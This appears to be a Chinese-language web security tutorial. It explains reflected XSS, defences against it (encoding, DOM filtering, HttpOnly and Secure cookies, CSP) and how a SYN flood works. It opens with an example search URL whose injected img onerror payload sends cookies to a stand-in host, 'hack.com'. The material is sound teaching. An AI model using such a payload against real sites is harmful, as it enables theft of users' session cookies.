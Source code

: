 ```
https://www.toutiao.com/search?item=<img onerror="new Image().src='//hack.com?c=' src='null'>"
```

大家知道很多站点都提供搜索服务，这里的item字段就是给服务端提供关键词。如果hacker将关键词修改成可执行的JavaScript语句，如果服务端不加处理直接将类似代码回显到页面，XSS代码就会被执行。


这段代码的含义是告诉浏览器加载一张图片，图片的地址是空，根据加载机制空图片的加载会触发Element的onerror事件，这段代码的onerror事件是将本地cookie传到指定的网站。


### XSS的防范措施：

**编码:**
对于反射型的代码，服务端代码要对查询进行编码，主要目的就是将查询文本化，避免在浏览器解析阶段转换成DOM和CSS规则及JavaScript解析。


**DOM Parse和过滤:**
从XSS工作的原理可知，在服务端进行编码，在模板解码这个过程对于富文本的内容来说，完全可以被浏览器解析到并执行，进而给了XSS执行的可乘之机。

为了杜绝悲剧发生，我们需要在浏览器解析之后进行解码，得到的文本进行DOM parse拿到DOM Tree，对所有的不安全因素进行过滤，最后将内容交给浏览器，达到避免XSS感染的效果。

----------


**Cookies如何防范XSS攻击?**

为了减轻这些攻击，需要在HTTP头部配置set-cookie:

* HttpOnly - 这个属性可以防止cross-site scripting，因为它会禁止Javascript脚本访问cookie。
* secure - 这个属性告诉浏览器仅在请求为HTTPS时发送cookie。

结果应该是这样的: Set-Cookie: sid=; HttpOnly. **使用Express的话，cookie-session默认配置好了**。

>在cookie-session中httpOnly: a boolean indicating whether the cookie is only to be sent over HTTP(S), and not made available to client JavaScript (true by default).


>一个布尔值，指示cookie是否仅通过HTTP（S）发送，并且不提供给客户端JavaScript（true默认情况下）



----

**使用网页安全政策（Content Security Policy）**

> Content Security Policy
>
> http://www.ruanyifeng.com/blog/2016/09/csp.html







## SYN Flood 攻击

SYN Flood 属于**典型的 DoS/DDoS 攻击**。其攻击的原理很简单，就是用客户端在短时间内伪造大量不存在的 IP地址，并向服务端疯狂发送SYN。对于服务端而言，会产生两个危险的后果:

- 处理大量的SYN包并返回对应ACK, 势必有大量连接处于SYN_RCVD状态，从而占满整个半连接队列，无法处理正常的请求。
- 由于是不存在的 IP，服务端长时间收不到客户端的ACK，会导致服务端不断重发数据，直到耗尽服务端的资源。


